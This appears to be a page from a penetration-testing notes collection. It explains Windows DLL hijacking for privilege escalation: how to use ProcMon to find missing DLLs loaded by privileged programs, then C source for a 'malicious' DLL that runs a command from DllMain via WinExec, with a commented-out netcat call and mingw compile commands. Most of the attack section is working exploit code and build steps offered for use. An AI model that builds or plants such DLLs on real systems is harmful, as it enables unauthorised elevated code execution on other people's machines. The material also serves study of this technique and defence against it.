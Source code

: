 # DLL Hijacking
If a privileged application includes a missing DLL, we can replace that DLL and execute arbitrary privileged commands.
## ProcMon
[ProcMon](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/tree/master/Privilege%20Escalation/windows-binaries) is a Microsoft SysInternals stand-alone binary which can be used to search for such a scenario. When ran look for any `QueryOpen` operations that result in `NAME_NOT_FOUND` Then simply replace the DLL with a malicious DLL which spawns a shell.
## Malicious DLL
Below is the C code which we canm use to create a "malicious" Windows DLL file.
```
#include <windows.h>
int fireLazor()
{
 //WinExec("nc", 0);
 WinExec("cmd \"d:some path\\program.bat\" \"d:\\other path\\file name.ext\"",SW_SHOW_MINIMIZED);
 return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 fireLazor();
 return 0;
}
```
Compile the code as follows,
```
i686-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
i686-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a
```
This will create a file called `main.dll`.
